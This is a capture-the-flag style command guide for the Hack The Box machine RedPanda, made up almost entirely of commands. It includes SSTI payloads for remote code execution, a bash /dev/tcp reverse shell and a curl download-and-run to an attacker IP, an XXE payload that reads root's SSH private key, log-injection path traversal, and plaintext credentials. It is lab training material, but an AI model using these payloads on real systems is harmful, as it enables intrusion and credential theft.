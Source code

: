 # 🐼 HTB: RedPanda – Command Guide

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Recon

### Nmap Full Scan
```bash
nmap -p- --min-rate 10000 10.10.11.170
nmap -p 22,8080 -sCV 10.10.11.170
```

### Add to Hosts File
```bash
echo "10.10.11.170 redpanda.htb" | sudo tee -a /etc/hosts
```

### [Feroxbuster](HTTP) for Paths
```bash
feroxbuster -u http://10.10.11.170:8080 -x java,class
```

---

## 🧠 SSTI Foothold

### Fuzz for Banned Characters
```bash
wfuzz -u http://10.10.11.170:8080/search -d name=FUZZ \
-w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --ss banned
```

### Valid Payload Examples
```text
*{7*7}
@{7*7}
#{7*7}
```

### RCE via SSTI (in search box)
```text
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

---

## 🐚 Reverse Shell (via SSTI)

### Reverse Shell Payload Script (host locally)
```bash
# /var/www/html/shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

### Drop the shell
```http
*{T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.6/shell.sh -o /tmp/shell.sh')}
*{T(java.lang.Runtime).getRuntime().exec('bash /tmp/shell.sh')}
```

### Catch Reverse Shell
```bash
nc -lvnp 443
script /dev/null -c bash  # for upgrade
```

---

## 🔐 Enumeration

### Confirm Group for PrivEsc Path
```bash
id
```

### Check Files Owned by `logs` Group
```bash
find / -group logs 2>/dev/null | grep -v -e '^/proc' -e '\.m2' -e '^/tmp/'
```

---

## 🔍 Analyze Applications

### Interesting Paths
```bash
/opt/panda_search/
/opt/credit-score/
/credits/
/opt/panda_search/redpanda.log
```

### Note: Web creds (from source)
```bash
user: woodenk
pass: RedPandazRule
```

---

## ⚙️ Root Shell via XXE Chain

### 1. Create Malicious XML (`0xdf_creds.xml`)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY foo SYSTEM 'file:///root/.ssh/id_rsa'>
]>
<credits>
  <author>0xdf</author>
  <image>
    <uri>/img/panda.jpg</uri>
    <views>0</views>
    <root>&foo;</root>
  </image>
  <totalviews>1</totalviews>
</credits>
```

### 2. Tag Image with Metadata (JPG Artist Field)
```bash
cp image.jpg 0xdf.jpg
exiftool -Artist="../tmp/0xdf" 0xdf.jpg
```

### 3. Upload Malicious Files to `/tmp/`
```bash
scp 0xdf.jpg 0xdf_creds.xml woodenk@10.10.11.170:/tmp/
```

### 4. Inject Fake Log Line
```bash
echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> /opt/panda_search/redpanda.log
```

### 5. Wait for Cronjob (~2 mins)

### 6. Extract SSH Key from XML
```bash
cat /tmp/0xdf_creds.xml
```

---

## 🗝️ [SSH](SSH) as Root

### Save and Use Key
```bash
chmod 600 ~/keys/redpanda-root
ssh -i ~/keys/redpanda-root root@10.10.11.170
```

---

## 🎓 Beyond Root: Group Discrepancy

### Web Shell (via SSTI)
```bash
id  # groups: logs, woodenk
```

### SSH Login
```bash
id  # groups: woodenk
```

### Reason
- Java web app started as:
  ```bash
  sudo -u woodenk -g logs java -jar ...
  ```
- SSTI shell inherits logs group
- SSH session doesn’t

---

Let me know if you'd like this wrapped into a Markdown file or Notion-friendly version! 🧩